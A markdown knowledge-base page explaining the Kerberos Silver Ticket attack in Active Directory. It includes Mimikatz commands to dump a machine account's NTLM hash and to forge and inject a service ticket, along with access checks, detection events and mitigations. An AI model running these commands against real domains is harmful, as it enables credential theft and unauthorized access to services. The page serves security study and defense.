 +++
title = "Silver Ticket"
author = ["svejk"]
tags = ["kerberos", "activeDirectory"]
draft = false
+++

## Silver Ticket {#silver-ticket}

A Silver Ticket is a forged ****Kerberos Service Ticket (TGS)**** that allows access to a specific service without contacting a Domain Controller. It is created using the ****NTLM hash of the target service account****, often a computer account (e.g., \`HOST/\`, \`HTTP/\`).


### Overview {#overview}

-   Forged TGS for a specific service
-   Does not require communication with a Domain Controller
-   Uses the ****service account's NTLM hash****, not KRBTGT
-   Lower privilege, more stealthy than a Golden Ticket


### Prerequisites {#prerequisites}

-   SYSTEM or Administrator access on a domain-joined machine
-   Knowledge of:
    -   NTLM hash of the target service account (e.g., machine account or managed service account)
    -   SPN (Service Principal Name)
    -   Domain name &amp; FQDN
    -   Domain SID


### Key Concepts {#key-concepts}

-   **Service Ticket (TGS)**: Used to authenticate to a service (e.g., CIFS, MSSQL, HTTP)
-   **SPN**: Tied to the service account; uniquely identifies the Kerberos service
-   **Computer account NTLM hash** = used to sign TGS for that host
-   Bypasses the KDC entirely; invisible to the Domain Controller


### Mimikatz Commands {#mimikatz-commands}


#### Get NTLM Hash of the Service Account {#get-ntlm-hash-of-the-service-account}

Typically done via secretsdump.py, DCSync, or LSASS dump.

From Mimikatz (on DC or machine with SYSTEM access):

```powershell
mimikatz # privilege::debug
mimikatz # lsadump::lsa /inject /name:TARGETHOST$
```

Look for:
NTLM: 92f8c3cbd7e9fc367ea85e3e05b47b0f


### Create and Inject Silver Ticket {#create-and-inject-silver-ticket}

```powershell
mimikatz # kerberos::golden /user:administrator /domain:corp.local /sid:S-1-5-21-1234567890-2345678901-3456789012 /target:targethost.corp.local /service:cifs /rc4:92f8c3cbd7e9fc367ea85e3e05b47b0f /ptt /id:500
```

Explanation:

-   \`/user\`: User to impersonate (e.g. administrator)
-   \`/domain\`: Target domain
-   \`/sid\`: Domain SID
-   \`/target\`: FQDN of the service host (e.g. \`host.corp.local\`)
-   \`/service\`: SPN prefix (e.g. \`cifs\`, \`http\`, \`mssqlsvc\`)
-   \`/rc4\`: NTLM hash of service account
-   \`/id\`: RID of impersonated user
-   \`/ptt\`: Injects ticket into memory


### Validate Access {#validate-access}

Example:

```powershell
dir \\targethost\c$
klist
whoami
```

You should now have access to the service (e.g. \`\\\host\c$\`).


## Common Target SPNs {#common-target-spns}

-   \`CIFS/host.domain\` – file shares
-   \`HTTP/host.domain\` – web apps, SharePoint
-   \`MSSQLSvc/host.domain:1433\` – SQL Server
-   \`WSMAN/host.domain\` – WinRM


## Impact {#impact}

-   Access to specific services as a forged user
-   No logs on Domain Controller (KDC not involved)
-   Great for lateral movement or persistence
-   Useful when Golden Ticket is too noisy


## Detection {#detection}

-   Service tickets without corresponding TGT issuance
-   Unusual user/service pairings
-   Tickets from nonexistent users
-   \`Event ID 4624\` logons to services with no matching \`4768/4769\` events


## Mitigation {#mitigation}

-   Use AES-only authentication (silver ticket needs RC4)
-   Rotate service account passwords regularly
-   Restrict and monitor service account privileges
-   Deploy Defender for Identity / endpoint telemetry


## References {#references}

-   <https://adsecurity.org/?p=2011>
-   <https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview>
-   <https://www.harmj0y.net/blog/redteaming/kerberos-attacks-part-2/>
